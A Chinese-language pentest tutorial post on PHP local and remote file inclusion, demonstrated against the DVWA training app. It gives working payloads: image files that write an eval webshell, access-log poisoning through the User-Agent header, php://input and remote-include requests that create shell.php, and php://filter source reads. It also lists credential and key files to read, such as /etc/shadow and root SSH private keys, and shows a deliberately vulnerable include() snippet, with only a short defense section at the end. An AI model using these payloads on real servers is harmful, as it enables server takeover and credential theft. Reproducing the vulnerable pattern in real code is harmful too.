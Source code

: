 ```yaml
---
draft: false
date: 2016-07-26 09:24:22
title: 文件包含漏洞
description: 
categories:
  - Pentest
tags:
  - 文件包含
---
```


环境：phpStudy 2016、DVWA v1.10

### 0x00 文件包含
程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。

几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多,而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端。

在PHP中经常出现包含漏洞，但这并不意味这其他语言不存在。

### 0x01 常见文件包含函数
```
include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
include_once()和require_once()：若文件中代码已被包含则不会再次包含
```

### 0x02 利用条件
* 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
* 用户能够控制该动态变量

``` 
注：PHP中只要文件内容符合PHP语法规范，包含时不管扩展名是什么都会被PHP解析，  
   若文件内容不符合PHP语法规范则会暴漏其源码。包含不存在的文件则可能暴露路径
```

### 0x03 漏洞危害
* 执行任意代码
* 读取文件源码或敏感信息
* 包含恶意文件控制网站
* 甚至控制服务器

### 0x04 漏洞分类
* 本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
    * 读敏感文件，读PHP文件
    * 包含日志文件GetShell
    * 上传图片马，然后包含从而GetShell
    * 包含/proc/self/envion文件GetShell
    * 包含data:或php://input等伪协议
    * 若有phpinfo则可以包含临时文件
* 远程文件包含：可以直接执行任意代码
    * 要保证php.ini中allow_url_fopen和allow_url_include要为On

### 0x05 漏洞挖掘
> 上AWVS或者自己写代码测试

### 0x06 本地包含GetShell

* 简单代码示例

```php
<?php
    if (@$_GET['page']) {
        include("./action/".$_GET['page']);
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload2.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload2_check.png)

* 包含图片马写shell
    * 生成包含```<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST['cmd']);?>")?>```的图片马
    * 上传后图片路径为../../hackable/uploads/aa.png
    * 访问```http://10.11.11.20/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/aa.png```
    * 在fi这个文件夹下会看到生成shell.php,内容为```<?php eval($_POST['cmd']);?>```

* 包含日志GetShell(主要是得到日志的路径)

```ini
在Linux下一般读日志路径：
文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
默认位置/var/log/httpd/access_log
```
日志会记录客户端请求及服务器响应的信息，访问```http://www.xx.com/<?php phpinfo(); ?>```时，<?php phpinfo(); ?>也会被记录在日志里，也可以插入到User-Agent
![文件包含-包含日志](/img/post/file_include_access.log1.png)
可以通过Burp Suite来绕过编码
![文件包含-包含日志](/img/post/file_include_access.log2.png)
日志内容如下：
![文件包含-包含日志](/img/post/file_include_access.log3.png)
![文件包含-包含日志](/img/post/file_include_access.log4.png)

* 使用PHP封装协议GetShell

```
allow_url_include=On时：

http://www.xxx.com/index.php?page=php://input
POST:<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST['cmd']);?>") ?>

结果将在index.php所在文件下生成一句话文件shell.php
```

* %00截断包含(PHP<5.3.4 and magic_quotes_gpc=Off，CVE-2006-7243)

![文件包含-上传图片马](/img/post/file_include_upload3.png)

还有一个路径长度截断，可以用.或/.或./截断，Windows需要259个bytes，Linux需要4096个bytes

* phpinfo包含临时文件GetShell

```
向phpinfo上传文件则可以返回文件路径，但是文件存在时间很短，
可以用程序持续上传，然后就可以包含你上传的文件了
```

* 包含环境变量文件GetShell

```
需要PHP运行在CGI模式
然后和包含日志一样，在User-Agent修改为payload
```

### 0x07 本地包含读文件
* 读敏感文件

![文件包含-读敏感文件](/img/post/file_include_read_file.png)

可读如下敏感文件：
```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

* 读PHP文件源码

```
直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
?page=php://filter/read=convert.base64-encode/resource=config.php
访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码
```

### 0x08 远程包含
注：远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
![文件包含-远程包含](/img/post/file_include_remote_include.png)
若在a.txt写入```<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['cmd']); ?>") ?>```，可直接写shell

### 0x09 漏洞防御
```
PHP中使用open_basedir配置，将访问限制在指定区域
过滤./\
禁止服务器远程文件包含
```

